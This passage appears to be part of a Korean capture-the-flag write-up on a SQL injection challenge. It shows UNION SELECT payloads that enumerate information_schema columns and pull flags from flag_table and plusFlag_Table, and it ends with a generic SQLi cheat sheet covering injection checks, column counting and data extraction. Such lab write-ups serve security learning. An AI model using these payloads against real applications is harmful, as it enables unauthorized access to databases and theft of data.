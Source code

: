 ✅ plusFlag_Table
```
normaltic' UNION SELECT column_name,2,3,4 FROM information_schema.columns WHERE table_name='plusFlag_Table' -- 
```
<img src="https://github.com/user-attachments/assets/f7caef9f-82c7-4396-8a7d-8d3eebaa13d0" width="600"/>
✅ user_info

```
normaltic' UNION SELECT column_name,2,3,4 FROM information_schema.columns WHERE table_name='user_info' 
--
``` 
<img src="https://github.com/user-attachments/assets/058762f9-5f6d-40a8-9062-e4ce876febed" width="600"/>

### 🎯 시도 7 – 플래그 추출 (flag_table)
```
normaltic' UNION SELECT flag,2,3,4 FROM flag_table -- 
```
✅ flag 컬럼에서 플래그 출력 성공
<img src="https://github.com/user-attachments/assets/568a6c00-9b4d-4a97-9877-a990681e4ec3" width="600"/>

🎯 시도 8 – 또 다른 flag 컬럼? (plusFlag_Table)
```
normaltic' UNION SELECT idx,flag,3,4 FROM plusFlag_Table -- 
```
✅ 두 번째 플래그 후보도 발견
<img src="https://github.com/user-attachments/assets/76dbd42a-1d64-4751-9003-ebf240d41f03" width="600"/>


## 치트시트 정리 
| 🧩 목적 | 💻 명령어 예시 |
|--------|----------------|
| **SQLi 여부 확인** | `' OR '1'='1-- ` |
| **컬럼 수 확인** | `' ORDER BY 1-- ` |
| **UNION SELECT 테스트** | `' UNION SELECT 1,2,3,4--ㅡ` |
| **현재 DB 이름 확인** | `' UNION SELECT database(),2,3,4-- ` |
| **테이블 이름 추출** | `' UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema='{데이터베이스 명}'-- ` |
| **컬럼 이름 추출** | `' UNION SELECT column_name,2,3,4 FROM information_schema.columns WHERE table_name='{테이블 명}'-- ` |
| **데이터 추출** | `' UNION SELECT {컬럼 명},2,3,4 FROM {테이블 명}-- ` |



